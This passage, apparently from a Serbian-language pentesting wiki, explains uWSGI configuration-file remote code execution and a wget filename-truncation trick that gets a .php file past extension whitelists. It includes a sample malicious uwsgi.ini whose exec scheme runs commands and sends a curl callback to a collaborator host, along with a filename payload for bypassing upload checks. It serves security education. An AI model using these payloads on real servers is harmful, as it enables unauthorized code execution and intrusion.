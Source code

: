 
## **uWSGI RCE**

Za detaljno istraživanje ove ranjivosti pogledajte originalno istraživanje: [uWSGI RCE Exploitation](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).

Ranjivosti za udaljeno izvršavanje komandi (RCE) mogu biti iskorišćene na uWSGI serverima ako imate mogućnost da izmenite `.ini` konfiguracioni fajl. Konfiguracioni fajlovi uWSGI servera koriste specifičnu sintaksu za uključivanje "magičnih" promenljivih, mesta i operatora. Posebno, operator '@', korišćen kao `@(filename)`, dizajniran je da uključi sadržaj fajla. Među različitim podržanim šemama u uWSGI-ju, "exec" šema je posebno moćna, omogućavajući čitanje podataka iz standardnog izlaza procesa. Ova funkcionalnost može biti manipulisana u zlonamerne svrhe kao što su udaljeno izvršavanje komandi ili proizvoljno pisanje/čitanje fajlova kada se `.ini` konfiguracioni fajl obrađuje.

Razmotrite sledeći primer štetnog `uwsgi.ini` fajla, prikazujući različite šeme:

```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```

Izvršenje payload-a se dešava tokom parsiranja konfiguracionog fajla. Da bi konfiguracija bila aktivirana i parsirana, proces uWSGI mora biti ili restartovan (potencijalno nakon pada ili zbog napada uskraćivanjem usluge) ili fajl mora biti podešen za automatsko ponovno učitavanje. Funkcija automatskog ponovnog učitavanja, ako je omogućena, ponovo učitava fajl u određenim intervalima nakon što detektuje promene.

Važno je razumeti opuštenu prirodu parsiranja konfiguracionog fajla uWSGI-ja. Konkretno, pomenuti payload može biti ubačen u binarni fajl (kao što je slika ili PDF), što dodatno proširuje obim potencijalne eksploatacije.

## **wget Trik za otpremanje fajlova/SSRF Trik**

U nekim situacijama možete otkriti da server koristi **`wget`** za **preuzimanje fajlova** i možete **navesti** **URL**. U tim slučajevima, kod može proveravati da li je ekstenzija preuzetih fajlova unutar bele liste kako bi se osiguralo da će biti preuzimani samo dozvoljeni fajlovi. Međutim, **ova provera može biti zaobiđena.**\
**Maksimalna** dužina **imenovanja fajla** u **Linuxu** je **255**, međutim, **wget** skraćuje imena fajlova na **236** karaktera. Možete **preuzeti fajl nazvan "A"\*232+".php"+".gif"**, ovo ime fajla će **zaobići** **proveru** (kao u ovom primeru **".gif"** je **validna** ekstenzija) ali će `wget` **preimenovati** fajl u **"A"\*232+".php"**.
